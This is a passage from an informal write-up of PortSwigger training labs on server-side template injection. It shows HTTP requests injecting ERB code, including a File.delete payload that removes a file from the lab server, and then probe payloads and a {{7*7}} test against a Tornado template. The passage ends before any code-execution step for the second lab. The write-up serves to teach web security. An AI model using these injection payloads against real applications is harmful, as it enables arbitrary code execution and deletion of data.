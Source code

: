 response:
    [[:rest]]

    GET /?message=<%25%3d+self.yield_self+%25> HTTP/1.1
response:
    HTTP/1.1 200 OK

    #<Enumerator:0x000056119b8674e8>

5. after we had fun exploring lets use file.delete command to solve the lab:
**request**:
    GET /?message=<%25%3dFile.delete('/home/carlos/morale.txt')%25> HTTP/1.1

# Lab Solbved


# [2. ***Lab: Basic server-side template injection (code context)***](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)

 This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 

Hint:Take a closer look at the "preferred name" functionality.



exploer different input points - 
1. comment filed dosent produce errror with payload: **${{<%[%'"}}%\\**
2. email field is protected with email format validation
3. preffered name seems to use a call to "user" object with attribute "name":

**request**:
    POST /my-account/change-blog-post-author-display HTTP/1.1
    
    blog-post-author-display=user.name&csrf=Mo2QxAt6nR1hCmnRC5KdCz97sj7sR8MU

leave a comment at one of the blog comment section - this installs a reflection of the preffered-name parameter:

    Wiener Peter | 25 July 2022

    blah


and send a prffered-name change with {{7*7}}:
    POST /my-account/change-blog-post-author-display HTTP/1.1
    ..
    blog-post-author-display={{7*7}}&csrf=KLKWNX8M7fYpw8oF7T1Z9ERefUjwnboy

check our comment to see if reflection has change an to what:
    {{49}} | 25 July 2022
